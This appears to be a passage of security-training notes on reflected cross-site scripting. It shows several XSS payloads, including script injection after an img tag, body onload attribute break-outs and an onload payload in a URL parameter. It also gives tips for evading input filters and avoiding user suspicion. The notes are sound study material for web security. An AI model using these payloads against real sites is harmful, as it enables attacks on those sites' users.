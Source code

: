   ```
  > <body>
  > <img src="logo.png" alt=""><script>alert('XSS
  > Example')</script>">
  > </body>
  > </html>
  > ```

* > Important to note in above is **">**  after closing script **</script>**  and in **alt** tag there is nothing infect closed it

  

* > To avoid the presence of suspicious characters in the visible part of
  > the web page, we can use the following payload:
  >
  > ```
  > "><body onload="alert('XSS Example')
  > ```
  >
  > 
  >
  > Note: we are leaving the double quote open because the remaining characters: 
  >
  > **">** will take care of closing our tag.

* > ![image-20210216092240200](images/image-20210216092240200.png)
  >
  > 
  >
  >
  > The BODY tag turns out to be very useful for XSS payloads.
  >
  >
  > This is good way to inject code into the web page without triggering a user's suspicion
  >
  >
  > Let's make this payload more cooler

* > ```
  > " onload="javascript:alert('XSS Example')
  > ```
  >
  > 
  >
  > Like =>
  >
  > ```
  > http://victim.site/index.php?name=" onload="javascript:alert('XSS Example')
  > ```

* > ![image-20210216092933390](images/image-20210216092933390.png)
  >
  > 
  >
  > DOM Events are often used in XSS exploitation because they allow us to avoid using suspicious characters like **<** and **>**
  >
  >
  > We don't need even to use HTML Tags [like the SCRIPT and BODY tags] here, so, we are able to bypass basic input validations routine that may rely on this type check .[ silly check]

* > If filters and input validation routines are in place, then we will want to ensure to submit as few suspicious characters as possible.
  ```